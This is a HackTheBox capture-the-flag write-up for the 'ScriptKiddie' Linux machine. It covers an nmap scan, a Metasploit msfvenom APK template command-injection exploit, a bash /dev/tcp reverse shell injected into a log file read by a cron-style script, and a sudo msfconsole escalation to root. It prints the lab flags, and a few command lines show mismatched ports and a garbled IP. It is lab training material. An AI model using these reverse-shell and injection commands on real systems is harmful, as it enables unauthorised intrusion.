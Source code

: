 # ScriptKiddie - HackTheBox
Linux, 20 Base Points, Easy

## Machine

![ScriptKiddie.JPG](images/‏‏ScriptKiddie.JPG)
  
## ScriptKiddie Solution

### User

So let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nmap -sC -sV -oA nmap/ScriptKiddie 10.10.10.226
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-30 00:08 IDT
Nmap scan report for 10.10.10.226
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.52 second

```

Let's observe port ```5000```:

![port5000.JPG](images/port5000.JPG)

We can upload venom payloads.

Let's use [Metasploit Framework msfvenom APK Template Command Injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/) when using a crafted APK file as an Android payload template.

So let's create ```apk``` file with command injection using ```Metasploit Framework```
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $msfconsole
                             
       =[ metasploit v6.0.16-dev                          ]
+ -- --=[ 2074 exploits - 1124 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Display the Framework log using the log command, learn more with help log

msf6 > This module exploits a command injection vulnerability in Metasploit Framework's msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK fileInterrupt: use the 'exit' command to quit
msf6 > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set payload cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
[+] msf.apk stored at /home/user/.msf4/local/msf.apk
```

So we have ```apk``` file with code injection, Now, because we used ```cmd/unix/reverse_netcat``` we need to listen using ```nc``` on port ```4444```:
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
```

Upload the ```apk``` and click on "generate":

![apkupload.JPG](images/apkupload.JPG)

And we get shell:
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.226: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 59932
whoami
kid
/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
kid@scriptkiddie:~$ cat user.txt
cat user.txt
c67272625a2096ab9a8d0b6017e55255
kid@scriptkiddie:~$
```

### Root

By running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we can found the script ```scanlosers.sh``` on ```/home/pwn```:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

We can get command injection by writing the following into ```/home/kid/logs/hackers``` file:
```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1' #"  >> /home/kid/logs/hackers
```

Listen before to port 1234:
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nc -lvp 4444
listening on [any] 1234 ...

```

Write the payload into ```home/kid/logs/hackers``` file:
```console
kid@scriptkiddie:/home/pwn$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.141234 0>&1' #"  >> /home/kid/logs/hackers
<0.10.14.23/1234 0>&1' #"  >> /home/kid/logs/hackers
kid@scriptkiddie:/home/pwn$ 
```

And we get ```pwn``` user shell:
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nc -lvp 4444
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 44410
bash: cannot set terminal process group (863): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
```

By running ```sudo -l``` we can see the follow:
```console
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$
```

So if we can use ```msfconsole``` with root privilages It's mean we can also get a root shell, Let's try it:
```console
pwn@scriptkiddie:~$ sudo msfconsole
sudo msfconsole
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Enable verbose logging with set VERBOSE true

msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt
6b7e82e1ec5820f4ca3996bb0e292b30
```

And we get root flag.